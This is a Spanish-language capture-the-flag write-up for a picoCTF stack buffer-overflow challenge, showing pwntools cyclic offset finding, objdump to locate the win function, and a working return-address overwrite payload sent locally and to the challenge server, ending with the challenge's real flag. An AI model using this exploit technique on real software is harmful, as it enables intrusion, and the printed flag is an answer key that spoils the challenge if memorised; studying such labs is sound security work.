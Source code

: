 ## Descripción
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/251/vuln).You can view source [here](https://artifacts.picoctf.net/c/251/vuln.c). And connect with it using `nc saturn.picoctf.net 49317`
## Solución
1. Descargar el código fuente del programa y el archivo binario.
2. Nos damos cuenta que el código usa gets lo cual nos permite debordar el bufer y hacer que el código se comporte de forma inesperada, es decir, que desborando el buffer podemos modificar la direción de retorno.
3. creamos el archivo flag.txt 
``` shell
─(kali㉿kali)-[~/pico]
└─$ echo 'flag{dummieflag}' > flag.txt

```
4. Para este reto sera necesario usar las pwn tools por lo que las instalamos.
``` shell
pip install pwntools
```
5. Realizamos las siguientes operaciones en la consola de python para btener la bandera del reto.
``` pyhton
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

```
6. Ejecutamos nuestro binario con la cadena que nos proporcionó la funcion de cyclic(100)
``` shell
┌──(kali㉿kali)-[~/pico]
└─$ ./vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
zsh: segmentation fault  ./vuln

```
Y ejecutamos el siguiente comando en python
``` python
>>> cyclic_find(0x6161616c)
44
```
Como se puede ver al ejecutar el archivo binario con la cadena que obtuvimos de python el programa entra en una expeción y al ejecutar el comando cyclic_find este nos dice el numero de caracteres necesarios para sobrescribir la direción de retorno de la pila de ejecución, por lo que para obtener la bandera será necesario sobrescribir la direción de retorno y cambiar esta direción por la direción de la función win que es la que nos dara la bandera.

7. Obtenemos la dirección de retorno de la funcion win.
``` sehll
┌──(kali㉿kali)-[~/pico]
└─$ objdump -D vuln -M intel | grep 'win'

080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>

```

8.  Probamos los siguiente en local.
``` shell
┌──(kali㉿kali)-[~/pico]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
flag{dummieflag}
zsh: done                echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | 
zsh: segmentation fault  ./vuln

```

Esto nos da la bandera en local por lo que ahora lo intentamos en el servidor para obtner  la bandera real del reto.
``` shell
┌──(kali㉿kali)-[~/pico]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 63221
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_2e53b270} 
```

## Notas
